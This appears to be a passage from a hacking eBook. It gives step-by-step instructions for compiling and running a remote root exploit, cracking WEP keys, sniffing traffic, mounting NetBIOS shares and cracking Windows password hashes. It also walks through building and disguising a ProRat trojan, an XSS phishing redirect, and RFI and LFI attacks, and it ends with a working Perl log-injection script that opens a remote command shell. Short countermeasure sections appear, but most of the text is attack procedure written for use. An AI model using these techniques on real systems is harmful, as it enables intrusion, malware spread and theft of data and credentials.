There are also C/C++ scripts that are made to be compiled by a particular compiler, or in a particular operating system. You can usually find this information commented in the top of the script. Below is a list of the most popular compilers for each operating system.
Windows
- Microsoft Visual C++
- Borland C++
- Dev-C++
Mac
- MrC/MrCpp
- Xcode
Linux
- GCC
Most C/C++ exploit code is made to be compiled in Linux. If you wish to run one of them but you???re only option is Windows, then you can use Cygwin .
Cygwin is a Linux-like environment that runs in Windows and acts as a Linux emulation layer, allowing you to run Linux scripts in windows.
Although many Linux C/C++ exploit scripts will work with Cygwin, there are also many may not. I will show you how you can use Cygwin right after I give you an example of compiling and running a C/C++ script in Ubuntu Linux. If you aren???t already using Linux, I would recommend following along using VirtualBox from the Linux chapter.Open up Terminal.
Go to http://milw0rm.com/exploits/269 and copy the remote root exploit.
Open up the VI editor in the terminal by typing in ???vi??? and hitting <Enter>.
You should see the following screen:
To get into typing mode type in I (Shift + I).
You are now in insert mode. Right click and paste in the exploit.
The script should have pasted in. Now it???s time to save it. Hit the <ESC> key and then type in ???:wq exploit.c??? . This quits and saves the document as exploit.c .
Now type in the command: ls. This command lists all the files in the current directory. You should see your newly made file in the list.
Now we will compile the script using the GCC compiler, but before we compile this script we need to first install a development package of all the libraries and headers needed to compile C/C++ scripts. It???s a very easy process. In the terminal type in the following command:
sudo apt-get install build-essential
This command downloads the package and then asks you if you would like to continue with installing. Type in a ???y??? and hit enter. It automatically will install the package.
Now to compile the script type in the command ??? type gcc exploit.c??? , it will quickly compile. If there was no error displayed, then it was successful. By using the ???ls??? command you can now see there???s a new file named ??? a.out???
this is the compiled script.
To run the new file type in the command ??? ./a.out???. This will display a little note telling you how to run the exploit against a server. The below image shows all of these steps together.

The last line of the picture shows the proper way a hacker would use the script against a server.
Once the hacker ran the script against a vulnerable server running.
BeroFTPD 1.3.4 and the script worked, the hacker would now have root access to the server. Below is an image of what the root account on Ubuntu would look like.
As you can see the ???whoami??? command tells you who you are on the system. In this case I am root.
Cygwin
If you only have access to a Windows machine, and you come across a C/C++ script that is only meant to be compiled in Linux, then you can use Cygwin to make it possible in Windows. Let???s get right into it!
Download Cygwin from http://www.cygwin.com/.
- Run the installer.
- Choose to install from the internet.
Continue on until it asks you to choose a mirror to download from. Choose any.
Next you must select packages to download. Click View ???+??? under
Devel to expand the category. Expand the window so that you can see all of the columns.
Under the package column, search for gcc- core and click on ???Skip??? to select it and click next.
If it tells you that you haven???t selected a couple packages that you need, agree to install them and click next.
It will begin to install the packages
Once it is installed, double click the desktop icon and a command prompt should come up.
Using the same exploit as the last example, save and move it into the ???C:\cygwin??? directory as ???exploit.c???.
Now it???s time to run the exploit. First you must change the directory to the home directory (C:\cygwin) by using the command ???cd /???. Next use the ???ls??? command to display all the files in the current directory. You should see ???exploit.c???.
Now to compile the script we use the same command as we did in Ubuntu: ??? gcc exploit.c ???o exploit???. Here you see that we added a new parameter ???-o???. This simply tells the compiler to name the output exe ???exploit.exe???. Hit <ENTER> and if no error messages came up, then it was successful. If you use the ???ls??? command again, you should see a new file ??? exploit.exe??? in the directory.
To run the exploit, simply type ???./exploit???. It will now display the scripts runtime directions. Put in the right options and parameters and run the script again. The picture below shows all of these steps being done.
Once a hacker runs this script against a vulnerable machine and the script works, he will have root access to the target computer.
The more exploits you run, the more you will notice that half of them may not work. Many exploits are created and tested in specific environments and the expected outcome only happens when the exploit is run in the exact same environment. That is another reason why programming knowledge is needed, so you could edit the exploit script to work for you.
Once a skilled hacker gains root to a server he has the ability to do a lot of damage. Some of the things a hacker might do with a rooted server is:
- Add himself as a permanent user for future access.
- Add the server into his botnet collection so he could use it as a weapon against other servers.
- Use it as a proxy to hack other websites.
- Install a rootkit so he can come back and have full control over the server when needed.
- Constantly steal information as it comes.
- Use the system to store illegal data.
- Deface the website and sometimes the hacker will delete everything off of the server.
Countermeasures
There are a few things you can do to stay secure from network hacking attempts.
Keep all your software up to date. There will always be new vulnerabilities coming out, and your responsibility is to patch them immediately after a patch comes out.
Implement a firewall. This will keep most of the bad data out and good data in.
Install anti-virus software.
Scan your system with a vulnerability scanner. This may reveal possible vulnerabilities in your system.
Wireless Hacking
Nowadays, there are wireless hotspots everywhere! You can get internet access with a wireless enabled laptop almost everywhere you go. In this chapter I will discuss ways a hacker goes about getting into secure wireless networks and things he can do once he is inside.
Scanning for Wireless Networks
For this section and the following, you will need to have a wireless card/adapter. The hacker starts by scanning for wireless networks near him. The Windows tool we will use in this section is called NetStumbler.
Also by the time you receive this eBook MacStumbler may already be released for those of you using a Mac. Some other similar programs are:
- Kismet for Windows and Linux.
- KisMac for the Mac.
Download and install NetStumbler.
Run it. It automatically starts to scan for wireless access points.
Once it is completed, you should see a list of all the wireless access points around you.If you click on the MAC address of one of the discovered wireless networks under channels, you will see a graph that shows the wireless network???s signal strength.
The more green and the less spaces, the better the signal. As you can see NetStumbler provides a lot more than just the name (SSID) of the wireless network. It provides the MAC address, Channel number, encryption type, and a bunch more. All of these come in use when a hacker decides he wants to get in the secured network by cracking the encryption. The most common types of encryption are:
- WEP (Wired Equivalent Privacy) ??? WEP isn???t considered safe anymore. Many flaws have been discovered that allow a hacker to crack a WEP key easily.
- WAP (Wireless Application Protocol) ??? WAP is the currently the most secure and best option to secure your wireless network. It???s not as easily cracked as WEP because the only way to retrieve a WAP key is to use a brute-force or dictionary attack. If your key is secure enough, a dictionary attack won???t work and it could take decades to crack it if you brute-force it. This is why most hackers don???t even bother.
Cracking WEP
In this section we will use be using the Live Linux distribution called BackTrack to crack WEP. Backtrack comes with a huge list of preloaded software for this very purpose. Before we begin, there are a couple requirements:
You need a computer with a compatible wireless adapter.
Download Backtrack and create a Live CD.
The tools we will be using on Backtrack are:
- Kismet ??? a wireless network detector
- airodump ??? captures packets from a wireless router
- aireplay ??? forges ARP requests
- aircrack ??? decrypts the WEP keys
Let???s begin!
First we will find a wireless access point along with its bssid, essid and channel number. To do this we will run kismet by opening up the terminal and typing in kismet. It may ask you for the appropriate adapter which in my case is ath0. You can see your device???s name by typing in the command iwconfig.
To be able to do some of the later things, your wireless adapter must be put into monitor mode. Kismet automatically does this and as long as you keep it open, your wireless adapter will stay in monitor mode.
In kismet you will see the flags Y/N/0. Each one stands for a different type of encryption. In our case we will be looking for access points with the WEP encryption. Y=WEP N=OPEN 0=OTHER(usually WAP).
Once you find an access point, open a text document and paste in the networks broadcast name (essid), its mac address (bssid) and its channel number. To get the above information, use the arrow keys to select an access point and hit <ENTER> to get more information about it.
The next step is to start collecting data from the access point with airodump. Open up a new terminal and start airodump by typing in the command:
airodump-ng -c [channel#] -w [filename] –bssid [bssid] [device]
In the above command airodump-ng starts the program, the channel of your access point goes after -c , the file you wish to output the data goes after -w , and the MAC address of the access point goes after – -bssid . The command ends with the device name. Make sure to leave out the brackets.
Leave the above running and open another terminal. Next we will generate some fake packets to the target access point so that the speed of the data output will increase. Put in the following command:
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:55:66 -e [essid] [device]
In the above command we are using the airplay-ng program. The -1 tells the program the specific attack we wish to use which in this case is fake authentication with the access point. The 0 cites the delay between attacks,
-a is the MAC address of the target access point, -h is your wireless adapters MAC address, -e is the name (essid) of the target access point, and the command ends with the your wireless adapters device name.
Now, we will force the target access point to send out a huge amount of packets that we will be able to take advantage of by using them to attempt to crack the WEP key. Once the following command is executed, check your airodump-ng terminal and you should see the ARP packet count to start to increase. The command is: aireplay-ng -3 -b [bssid] -h 00:11:22:33:44:5:66 [device]
In this command, the -3 tells the program the specific type of attack which in this case is packet injection, -b is the MAC address of the target access point, -h is your wireless adapters MAC address, and the wireless adapte rdevice name goes at the end.
Once you have collected around 50k-500k packets, you may begin the attempt to break the WEP key. The command to begin the cracking process is:
aircrack-ng -a 1 -b [bssid] -n 128 [filename].ivs
In this command the -a 1 forces the program into the WEP attack mode, the -b is the targets MAC address, and the -n 128 tells the program the WEP key length. If you don???t know the -n , then leave it out. This should crack the WEP key within seconds. The more packets you capture, the bigger chance you have of cracking the WEP key.
With all the different computers and network adapters out there, you may come across a error occasionally. If you get stuck, remember, Google is your friend!
Search for an answer and I guarantee you that 99% of the time you will find a solution.
Packet Sniffing
I will be using the program Wireshark do demonstrate packet sniffing. Packet sniffing is the act of capturing packets going through a network. With a packet sniffer, once a hacker gains access to wireless network he could intercept private information going through a network such as: usernames, passwords, IM conversations, and e-mails. Let???s show you an example.
Download and install Wireshark .
Launch it and click on the option to list the available capture interfaces as shown below.
Next choose the target to begin to capture their packets and click on start.
If you don???t know which one to choose, wait a little bit and the one that accumulates the most packets is your best choice. Many captured packets shows that the user is currently active.
Now to show you an example of how Wireshark can be used I will start up
Windows Live and send a message. As you will see in the image below, my whole conversation will be captured. To filter out all the useless data and to only display the Windows Live related packets type in ???msnms??? in the filter bar.
As you can see, my message is displayed at the bottom. If I continue down the list I can see the whole conversation. Usernames and passwords are captured the same way, and if they aren???t encrypted, you can see them in plain text.
Some other useful sniffing programs to learn:
- WinDump
- Snort
- Dsniff
Countermeasures
There are a few countermeasures you could follow to keep your wireless network safe from hackers.
Change your routers default password and make sure you have WAP encryption enabled. If your router doesn???t have a WAP option, use WEP. It is better than nothing.
Use a long secure password for your router. Include numbers, lowercase letters, uppercase letters and other symbols. The more obscure the better.
Make sure your router has the option to not broadcast your SSID enabled.
This will prevent some programs like Net Stumbler from locating your wireless network.
Use MAC filtering on your router. Every wireless card and wireless adapter has a MAC address. By choosing to allow only your MAC addresses onto the network, you can keep a lot of attackers out.
To prevent packet sniffing attacks from affecting you, make sure the important sites you use, like banks, use SSL (Secure Socket Layer) encryption. You can tell if the site has SSL enabled if the URL begins with http:// instead of http:/.
In caf??s or other hotspots where internet is free, packet sniffing is very common. To avoid being affected use a VPN (Virtual Private Network) service to encrypt the data you send across the internet.
Windows Hacking
NetBIOS
NetBIOS stands for Network Basic Input Output System. It allows your LAN or WAN to share drives, folders, files and printers. Gaining access to a computer through NetBIOS is very simple and easy.
The only thing required is for the target machine to have file and printer sharing enabled and to have port 139 open. Below I will show you an example of what a hacker would do to gain access to a Windows machine through NetBIOS.
First the hacker would search for a target. A common tool used by hackers is Angry IP Scanner . Download and install it.
Next the hacker would insert the IP range he would like to scan. If the hacker was connected to a WLAN (Wireless Local Area Network) he would scan the local computers like I have shown below.
Since the hacker???s goal is to gain access to a system through NetBIOS, which runs on port 139, he will choose to scan each found host for that port. Click the downward arrow on the right and check the Scan ports box. A popup will come up asking you if you would like to select a new port. Click YES.
Type in the port number 139 into the first box and click OK.
Click start. The program will begin scanning and when it???s complete a box with the results will come up.
As you can see 224 Ips were scanned. Out of those only one was alive and luckily it has port 139 open.

Open the Command Prompt by going to Start -> Run -> Type in cmd ->
<ENTER> .
Now the hacker would run the ??? nbtstat ???a TargetIPaddress??? this will tell us if the target has file and printing enabled. Without it, this attack is not possible.
In the above image DAVIDS-MACHINE is the name of the target computer.
If you look to the right of it you will see the number <20>. This means that
file and printer sharing is enabled. If there was no <20> then you could not go any further and would have to find a new target.
Next the hacker would run the command ??? net view \\TargetIPaddress ???.
This command will display any shared drives, folders, files or printers. If nothing comes up, you won???t be able to gain access to anything since there is nothing being shared. In my case, I got the following:
In my example, I have two printers shared and one disk named SharedDocs . The hacker would be able to take control of my printers and view everything in my SharedDocs disk.
To gain access to my SharedDocs disk, the hacker would have to map out the drive onto his computer. If successful, the hacker will have all the contents of my drive on his computer.
To map out my drive onto his computer the hacker would use the command ???net use G: \\TargetIPaddress\DriveName ???. So in my case I would run the command ??? net use G:\\192.168.1.101\SharedDocs???.
You can use any letter in place of G:\\. This just tells the computer what to name the drive on your computer.
What???s this? Looks like I already have a drive G. To avoid this problem, go to My Computer where it will show all of your current Drives. To fix this simply change the letter G to a nonexistent drive letter.
Once the command is completed successfully, go to My Computer and you should see a new drive under Network Drives. Double clicking it brings up all of the targets documents.
Cracking Windows Passwords
To crack Windows XP and Windows Vista passwords, we will use the program called ophcrack. Ophcrack is a Windows only password cracker, and it uses rainbow tables to get the job done quickly. It cracks passwords for both Windows XP and Vista but it is more powerful on XP because Vista fixed the security hole that allowed XP to crack passwords easily. Windows uses a couple a couple types of hashes.
One of them is the LM (Lan Manager) hash. If a password is longer than seven characters, then it is split into seven character chunks, made into all uppercase, and then hashed with the DES encryption. Because it is split into parts and made all uppercase, the total number of different password combinations goes down significantly, and makes it easier for hackers to crack the password. The Windows password hashes are stored in a couple places:
In the C:\WINDOWS\system32\config directory where it is locked to all accounts but the system account which you don???t have access to.
In the registry: HKEY_LOCAL_MACHINESAM where it is also locked for all users.
So you might be wondering, how can I get a copy of those hashes? There are a couple ways.
Boot from a Linux live CD and copy the SAM file onto a USB or floppy disk.
Use the PWDUMP program that comes with ophcrack to trick the registry into giving up the hashes.
First download and install ophcrack. As you can see there are two versions. In this example we will be using the program itself in windows, so download the first option.
Once you have it downloaded, install it. When the option comes up to download rainbow tables, unclick them all and just install the program.
It is better to download the rainbow tables separately.
Once it is installed, go to the ophcrack website and click on Tables in the navigation. This will display all the tables you can download.
As you can see, the more characters covered, the bigger the table gets. Choose the correct table for your operating system.
In the example, I chose the largest possible free table. Next run ophcrack and click on tables. Select the table you downloaded and click Install to locate the file on your computer. Hit OK to continue.
Next we will be running PWDUMP to obtain the password hashes. Make sure all of your anti-virus and anti-spyware programs are disabled
because most anti-virus programs mistake PWDUMP for a malicious program since it accesses the system files. If you don???t disable the anti- virus program PWDUMP will fail in retrieving the hashes.
Click Load and select Local SAM. This will load all the password hashes for all the users on your computer and display them.
Next click Crack and the program will begin to crack the password hashes.
Once the program finishes cracking, you should see a screen similar to the following:
As you can see, two out of three of my account passwords were cracked in a matter of a couple minutes.
- Bob : lolcats
- David M: not found
- Pushkin: Christmas02
Ophcrack LiveCD
The next method to crack the Windows hashes I will show you is through an ophcrack LiveCD.
Go to the ophcrack website and choose the correct operating system LiveCD to download.
With the downloaded .ISO, create a LiveCD the same way you did with the Ubuntu LiveCD in the Linux chapter.
Put the CD in your CD-Drive and restart to boot from the CD.
You will see the following screen:
Hit <ENTER> or wait six seconds to boot into the Ophcrack Graphic mode . If something goes wrong and the screen won???t show the Graphics, restart and go into the Ophcrack Graphic VESA mode. If this also fails, go into Ophcrack Text mode .
Once it ophcrack loads completely, it will automatically get your Windows password hashes and begin the cracking process.
Countermeasures
There are a couple things you can do to prevent NetBIOS and Ophcrack password cracking attacks.
To keep computer from being a target of NetBIOS attacks, simply disable file and printer sharing. In Windows Vista, it is disabled by default but you must do a little work in Windows XP.
- Go to Start -> Control Panel -> Network Connections.
- Double click on your active connection. In my case it is the Wireless Network Connection 2 .
- Click on Properties.
- If File and Printer Sharing is selected, deselect it and click OK.
Malware
Malware is a big problem today. Everyday thousands of innocent people are getting infected by different types of malware. The most common types of malware today are viruses, worms and Trojans. In this chapter we will discuss all the types of malware, and give you an example of a windows trojan in use. The reason we will use Windows is because malware is very rare in Linux and Mac computers.
Definitions
Viruses ??? Viruses cannot spread without the help of us humans. They are like parasites because they need a host to attach themselves to. The host is usually a legitimate looking program or file. Once this program is launched, the virus is executed and infects other files on your computer. Viruses can be very destructive. They can do damage to your computer hardware, software and files. Viruses are spread through the sharing of files and are many times sent within emails via attachments.
Worms ??? A worm is a malicious program that can replicate itself onto other computers on a network. Unlike a virus, worms don???t need a human to be able to spread and infect systems. Once it infects a system, it uses that system to send out other copies of itself to other random systems attempting to infect them.
Trojan Horse ??? A trojan horse is a malicious program that can be used to do silly things to a system like changing its desktop, mess with the user interface, and take control of your mouse. It can also be used for some serious things like accessing your data, erasing your files, stealing your passwords, and capturing your keystrokes.
Logic Bombs ??? Logic bombs are usually pieces of code that are programmed into a program that lie dormant until a certain time or until a user does a certain action which causes it to be executed. When it is triggered it performs a certain function that the program wasn???t intended to do.
Bacteria ??? Bacteria make many copies of themselves and eventually end up taking up all of the computers recourses such as all of its processor power, memory and disk space. This results in the legitimate user losing access to those resources.
Blended Threats ??? Blended threats combine all of the characteristics of the above and use them along with system vulnerabilities to spread and infect machines.
ProRat
To show you an example of a malicious program, I will use a well known Windows Trojan, ProRat.
Download ProRat. Once it is downloaded right click on the folder and choose to extract it. A password prompt will come up. The password will be “pro???.
Open up the program. You should see the following:
Next we will create the actual Trojan file. Click on Create and choose Create ProRat Server.
Next put in your IP address so the server could connect to you. If you don???t know your IP address click on the little arrow to have it filled in for you automatically. Next put in your e-mail so that when and if a victim gets infected it will send you a message. We will not be using the rest of the options.
Click on the General Settings button to continue. Here we will choose the server port the program will connect through, the password you will be asked to enter when the victim is infected and you wish to connect with them, and the victim name.
As you can see ProRat has the ability to disable the windows firewall and hide itself from being displayed in the task manager.
Click on the Bind with File button to continue. Here you will have the option to bind the trojan server file with another file. Remember a trojan can only be executed if a human runs it. So by binding it with a legitimate file like a text document or a game, the chances of someone clicking it go up. Check the bind option and select a file to bind it to. In the example I will use an ordinary text document.
Click on the Server Extensions button to continue. Here you choose what kind of server file to generate. I will stick with the default because it has icon support, but exe???s looks suspicious so it would be smart to change it.
Click on Server Icon to continue. Here you will choose an icon for your server file to have. The icons help mask what the file actually is.
For my example I will choose the regular text document icon since my file is a text document.
Finally click on Create Server to, you guessed it, create the server file. Below is what my server file looks like.
A hacker would probably rename it to something like ???Funny Joke??? and send it as an attachment to some people. A hacker could also put it up as a torrent pretending it is something else, like the latest game that just came out so he could get people to download it.
Now, I will show you what happens when a victim installs the server onto his computer and what the hacker could do next.
I???m going to run the server on my own computer to show you what would happen. Once I run it the trojan will be installed onto my computer in the background.
The hacker would then get a message telling him that I was infected. He would then connect to my computer by typing in my IP address, port and clicking Connect. He will be asked for the password that he made when he created the server. Once he types it in, he will be connected to my computer and have full control over it.
Now the hacker has a lot of options to choose from as you can see on the right. He has access to all my computer files, he can shut down my pc, get all the saved passwords off my computer, send a message to my computer, format my whole hard drive, take a screen shot of my computer, and so much more. Below I???ll show you a few examples.
The image below shows the message I would get on my screen if the hacker chose to message me.
Below is an image of my task bar after the hacker clicks on Hide Start Button.
Below is an image of what the hacker would see if he chose to take a screen shot of the victims screen.
As you saw in the above example, a hacker can do a lot of silly things or a lot of damage to the victim. ProRat is a very well known trojan so if the victim has an anti-virus program installed he most likely won???t get infected. Many skilled hackers can program their own viruses and Trojans that can easily bypass anti- virus programs.
Countermeasures
There are a couple things you can do to prevent yourself from being infected by the malware discussed in this chapter.
Make sure you have good and up-to-date anti-virus software installed on your computer. Also if there is an automatic update option on your anti- virus software, make sure it is enabled.
Make sure you have a firewall installed on your computer and make sure that it is actually enabled. Firewalls protect against unauthorized inbound and outbound connections.
Web Hacking
With the Web 2.0 era upon us, most websites are dynamic and allow the users to interact with the content. Many of the web applications that run these dynamic websites have security flaws. In this chapter, we will discuss some of the most popular forms of attacks against web applications.
Cross Site Scripting
Cross site scripting (XSS) occurs when a user inputs malicious data into a website, which causes the application to do something it wasn???t intended to do. XSS attacks are very popular and some of the biggest websites have been affected by them including the FBI, CNN, Ebay, Apple, Microsft, and AOL. Some website features commonly vulnerable to XSS attacks are:
- Search Engines
- Login Forms
- Comment Fields
There are three types of XSS attacks:
Local ??? Local XSS attacks are by far the rarest and the hardest to pull off.
This attack requires an exploit for a browser vulnerability. With this type of attack, the hacker can install worms, spambots, and backdoors onto your computer.
Non-Persistent ??? Non-persistent attacks are the most common types of attack and don???t harm the actual website. Non-persistent attacks occur when (– a scripting language that is used for client-side web development.) or HTML is inserted into a variable which causes the output that the user sees to be changed. Non-persistent attacks are only activated when the user visits the URL crafted by the attacker.
Persistent ??? Persistent attacks are usually used against web applications like guest books, forums, and shout boxes. Some of the things a hacker can do with a persistent attacks are:
- Steal website cookies (Cookies are used by web browsers to store your user information so that you can stay logged into a website even after you leave. By stealing your cookie, the attacker can sometimes login without knowing your password.)
- Deface the website
- Spread Worms
Now that you know what cross site scripting is, how can you tell if a website if vulnerable to it?
If there is a search field, enter a word and if that word is displayed back to you on the next page, there???s a chance it is vulnerable.
Now we will insert some HTML. Search for <h1>hi</h1>, and if the word ???hi??? is outputted as a big header, it is vulnerable.
Now we will insert JavaScript. Search for <script>alert(???hi???);</script> , if the word ???hi??? pops up in a popup box, then the site is vulnerable to XSS.
As you can see, these examples are non-persistent. Now if a hacker found a guestbook or something else like it that was vulnerable, he would be able to make it persistent and everyone that visits the page would get the above alert if that was part of his comment.
Hackers knowledgeable in JavaScript and PHP will be able to craft advanced XSS attacks to steal your cookies and spread XSS worms, but to show you a simple example of something more realistic then the above examples, I will show you how a hacker could use XSS to help with phishing.
Let???s say a hacker wants to phish passwords from www.victim-site.com. If he was able to find an XSS vulnerability anywhere on the website, he would be able to craft a link pointing to the legit website that redirects to his phishing website.
In the example with the popup, when I inserted the JavaScript into the search box, a URL was formed that looked like the following:
Here you can see that the code you typed into the search box was passed to the ???searchbox??? variable.
In the URL the hacker would then replace everything in between ?searchbox= and &search with the following JavaScript code:
<script>window.location = ???http://phishing-site.com???</script>
Now when you go to the finished link, the legitimate site will redirect to the phishing website. Next what the hacker would do is encode the URL to make it look more legit and less suspicious. You can encode the URL at http://www.encodeurl.com/.
My finished encoded URL is:
..%2Fform.php%3Fsearchbox%3D%253Cscript%253Ewindow.locati on+%3D+%5C%22http%3A%2F%2Fphishing-
site.com%5C%22%3C%2Fscript%3E%26search%3Dsearch%21
Once the victim sees that the link points to the legitimate website, he will be more likely to fall for the phishing attack.
Remote File Inclusion
Remote File Inclusion (RFI) occurs when a remote file, usually a shell (a graphical interface for browsing remote files and running your own code on a server), is included into a website which allows the hacker to execute server side commands as the current logged on user, and have access to files on the server. With this power the hacker can continue on to use local exploits to escalate his privileges and take over the whole system.
Many servers are vulnerable to this kind of attack because of PHP???s default settings of register_globals and allow_url_fopen being enabled.
Although as of PHP 6.0, register_globals has been depreciated and removed, many websites still rely on older versions of PHP to run their web applications. Now let???s go through the steps a hacker would take to exploit this type of vulnerability in a website.
First the hacker would find a website that gets its pages via the PHP include() function and is vulnerable to RFI. Many hackers use Google dorks to locate servers vulnerable to RFI. A Google dork is the act of using Google???s provided search tools to help get a specific search result.
Website that include pages have a navigation system similar to: http://targetsite.com/index.php?page=PageName
To see if a the page is vulnerable, the hacker would try to include a site instead of PageName like the following:
http://target-site.com/index.php?page=http://google.com
If the Google homepage shows up on the website, then the hacker knows the website is vulnerable and would continue to include a shell.
A couple of the most popular shells are c99 and r57. A hacker would either upload them to a remote server or just use a Google dork to locate them already online and insert them. To find the a shell the hacker would search Google for: inurl:c99.txt. This will display many websites with the shell already up and ready to be included. At the end of the URL make sure to add a ? so that if anything comes after c99.txt, it will be passed to the shell and not cause any problems. The new URL with the shell included would look like: http://target-site.com/index.php?page=http://site.com/c99.txt?
Sometimes the PHP script on the server appends ??? .php??? to the end of every included file. So if you included the shell, it would end up looking like ???c99.txt.php??? and not work. To get around this, you would add a null byte (%00) to the end of c99.txt. This tells the server to ignore everything after c99.txt.
In step one, I told you that hackers use Google dorks to look for sites possibly vulnerable to RFIs. An example of a Google dork
would be: allinurl:.php?page=. This looks for URL???s with .php?page= in them. This is only an example and you most likely won???t find any vulnerable sites with that search. You can try switching around the word ???page??? with other letters and similar words. Hackers usually search vulnerability databases like www.milw0rm.com for already discovered RFI vulnerabilities in site content management systems and search for websites that are running that vulnerable web application with a Google dork.
If the hacker succeeds in getting the server to parse the shell, he will be presented with a screen similar to the following:
The shell will display information about the remote server and list all the files and directories on it. From here the hacker would find a directory that has read and write privileges and upload the shell but this time as a .php file so that incase the vulnerability is fixed, he will be able to access it later on.
The hacker would next find a way to gain root privileges on the system. He can do this by uploading and running local exploits against the server. He could also search the victim server for configuration files. These files may contain username and passwords for the MYSQL databases and such.
To protect yourself from RFI attacks, simply make sure you are using up-to-date scripts, and make sure you server php.ini file has register_globals and
allow_url_fopen disabled.
Local File Inclusion
Local File Inclusion (LFI) is when you have the ability to browse through the server by means of directory transversal. One of the most common uses of LFI is to discover the /etc/passwd file.
This file contains the user information of a Linux system. Hackers find sites vulnerable to LFI the same way I discussed for RFI???s.
Let???s say a hacker found a vulnerable site, www.target-
site.com/index.php?p=about, by means of directory transversal he would try to browse to the /etc/passwd file:
www.target-site.com/index.php?p= ../../../../../../../etc/passwd
The ../ you up one directory and the amount to use depends where in the server you are located compared the location of the /etc/passwd file.
If the hacker is able to successfully get to the /etc/passwd file he would see a list similar to the one below.
Root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
adm:x:3:4:adm:/var/log:/bin/false
lp:x:4:7:lp:/var/spool/lpd:/bin/false
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt
Each line is divided into seven parts:
username:passwd:UserID:GroupID:full_name:directory:shell
If the password hash was shown, the hacker would be able to crack it and get access to the machine, but in our case the password isn???t shown . This means that the password is shadowed and in the /etc/shadow file which the hacker doesn???t have access to. If this was the case, the hacker would probably attempt to get access to the system another way, through log injection.
The log directories are located in different areas in different Linux distributions. Below is a list of the most common locations.
../apache/logs/error.log
../apache/logs/access.log ../../apache/logs/error.log
../../apache/logs/access.log ../../../apache/logs/error.log
../../../apache/logs/access.log
../../../../../../../etc/httpd/logs/acces_log ../../../../../../../etc/httpd/logs/acces.log ../../../../../../../etc/httpd/logs/error_log ../../../../../../../etc/httpd/logs/error.log
../../../../../../../var/www/logs/access_log ../../../../../../../var/www/logs/access.log
../../../../../../../usr/local/apache/logs/access_log ../../../../../../../usr/local/apache/logs/access.log
../../../../../../../var/log/apache/access_log
../../../../../../../var/log/apache2/access_log
../../../../../../../var/log/apache/access.log
../../../../../../../var/log/apache2/access.log
../../../../../../../var/log/access_log ../../../../../../../var/log/access.log
../../../../../../../var/www/logs/error_log ../../../../../../../var/www/logs/error.log
../../../../../../../usr/local/apache/logs/error_log ../../../../../../../usr/local/apache/logs/error.log
../../../../../../../var/log/apache/error_log
../../../../../../../var/log/apache2/error_log
../../../../../../../var/log/apache2/error.log ../../../../../../../var/log/error_log ../../../../../../../var/log/error.log
Below are the steps a hacker would take to take gain access to the system through log injection.
First the hacker would find what operating system version the target server is running and then search where the log files are located on that OS.
Next, through LFI the hacker would navigate to that file location. If he is displayed with a bunch of logs, then he may continue.
The hacker would then inject some PHP code into the logs by typing
<? Passthru($_GET[???cmd???]) ?> after = in the URL. This will cause the PHP script to be logged because there is no file by that name. What this script will do is give the hacker shell access and allow him to execute system commands.
Now if the hacker goes back to the log file, he will see that his PHP script wasn???t parsed and instead converted to
%3C?%20passthru($_GET[cmd])%20?%3E
When you submitted the script, the browser automatically encoded the URL. Luckily there is a pearl script that can get around this problem. Below is the pearl script, edit the variables: $site, $path, $code, and $log to the appropriate information.
#!/usr/bin/perl -w
use IO::Socket;
use LWP::UserAgent;
$site=???www.vulnerablesite.com???;
$path=???/???;
$code=???<? Passthru(\$_GET[cmd]) ?>???;
$log = ???../../../../../../../etc/httpd/logs/error_log???;
print ???Trying to inject the code???;
$socket = IO::Socket::INET->new(Proto=>???tcp???, PeerAddr=>???$site???, PeerPort=>???80???) or die ???\nConnection Failed.\n\n???;
print $socket ???GET ???.$path.$code.??? HTTP/1.1\r\n???;
print $socket ???User-Agent: ???.$code.???\r\n???;
print $socket ???Host: ???.$site.???\r\n???;
print $socket ???Connection: close\r\n\r\n???;
close($socket);
print ???\nCode $code successfully injected in $log \n???;
print ???\nType command to run or exit to end: ???;
$cmd = <STDIN>;
while($cmd !~ ???exit???) {
$socket = IO::Socket::INET->new(Proto=>???tcp???, PeerAddr=>???$site???, PeerPort=>???80???) or die ???\nConnection Failed.\n\n???;
print $socket ???GET ???.$path.???index.php?filename=???.$log.???&cmd=$cmd HTTP/1.1\r\n???; print $socket ???Host: ???.$site.???\r\n???;
print $socket ???Accept: */*\r\n???;
print $socket ???Connection: close\r\n\n???;
while ($show = <$socket>)
{
print $show;
}
print ???Type command to run or exit to end: ???;
$cmd = <STDIN>;
}
Once the hacker runs this script and it goes successfully, he will be able to run any command on the server. From here he can run any local exploits to gain root, or just browse the server files.